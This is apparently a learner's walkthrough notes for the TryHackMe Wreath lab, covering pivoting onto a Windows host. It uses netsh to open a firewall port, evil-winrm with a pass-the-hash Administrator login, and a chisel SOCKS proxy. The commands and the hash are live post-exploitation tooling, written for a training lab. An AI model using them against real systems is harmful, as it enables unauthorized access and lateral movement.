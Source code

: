 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!

# Your job

1. Open up a port for pivoting. #Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Kairos" dir=in action=allow protocol=tcp localport=47000
```

2. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s <chisel_windows.exe directory>
```

3. Download  it from https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz/. #Attacking_Machine 

4. Decompress the .gz file. #Attacking_Machine 

5. Upload the chisel.exe file in #Evil-WinRM_shell  session.
```
upload chisel.exe
```

6. Setup chisel server forward socks proxy on #Evil-WinRM_shell 
```
chisel.exe server -p 49337 --socks5
```

7. Install chisel on Kali Linux.
	1. **Download Chisel Binary**
	    
	    - Visit the official [Chisel GitHub releases page](https://github.com/jpillora/chisel/releases).
	    - Identify the latest version and download the Linux binary:
	        `wget https://github.com/jpillora/chisel/releases/download/v1.9.0/chisel_1.9.0_linux_amd64.gz`
	        
	2. **Uncompress the Binary**
	    
	    - Use `gzip` to extract the file:
	        `gunzip chisel_1.9.0_linux_amd64.gz mv chisel_1.9.0_linux_amd64 chisel chmod +x chisel`
	        
	3. **Move Binary to System Path**
	    
	    - Place it in `/usr/local/bin` so it can be accessed globally:
	        `sudo mv chisel /usr/local/bin`
	        
	4. **Verify Installation**
	    
	    - Check if Chisel is installed correctly:
	        
	        `chisel --help`

8. Run chisel client. #Attacking_Machine 
```
chisel client 10.200.84.150:49337 9090:socks
```

Now the socks proxy is opened on port 9090 of our port

